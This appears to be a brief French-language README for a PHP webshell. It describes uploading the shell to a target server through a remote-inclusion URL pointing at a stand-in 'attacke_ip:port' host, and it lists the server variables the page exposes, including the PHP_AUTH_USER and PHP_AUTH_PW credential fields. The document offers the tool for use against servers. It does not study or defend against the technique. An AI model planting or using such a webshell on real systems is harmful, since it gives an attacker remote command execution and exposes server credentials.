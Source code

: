 # webshell

Webshell est une page en .php ou il y'a un shell et plusieur information sur le serveur sible.
Il faut télécharger le fichier "caltus124_webshell.php" sur un serveur sible comme par exemple:
"https://google.com?=http://attacke_ip:port/caltus124_webshell.php"

Composition de la page:

-Nom de l'OS du serveur(Linux ou Windows).
-Webshell
-List d'informations sur le serveur sible.

'PHP_SELF',
'argv',
'argc',
'GATEWAY_INTERFACE',
'SERVER_ADDR',
'SERVER_NAME',
'SERVER_SOFTWARE',
'SERVER_PROTOCOL',
'REQUEST_METHOD',
'REQUEST_TIME',
'REQUEST_TIME_FLOAT',
'QUERY_STRING',
'DOCUMENT_ROOT',
'HTTP_ACCEPT',
'HTTP_ACCEPT_CHARSET',
'HTTP_ACCEPT_ENCODING',
'HTTP_ACCEPT_LANGUAGE',
'HTTP_CONNECTION',
'HTTP_HOST',
'HTTP_REFERER',
'HTTP_USER_AGENT',
'HTTPS',
'REMOTE_ADDR',
'REMOTE_HOST',
'REMOTE_PORT',
'REMOTE_USER',
'REDIRECT_REMOTE_USER',
'SCRIPT_FILENAME',
'SERVER_ADMIN',
'SERVER_PORT',
'SERVER_SIGNATURE',
'PATH_TRANSLATED',
'SCRIPT_NAME',
'REQUEST_URI',
'PHP_AUTH_DIGEST',
'PHP_AUTH_USER',
'PHP_AUTH_PW',
'AUTH_TYPE',
'PATH_INFO',
'ORIG_PATH_INFO'.
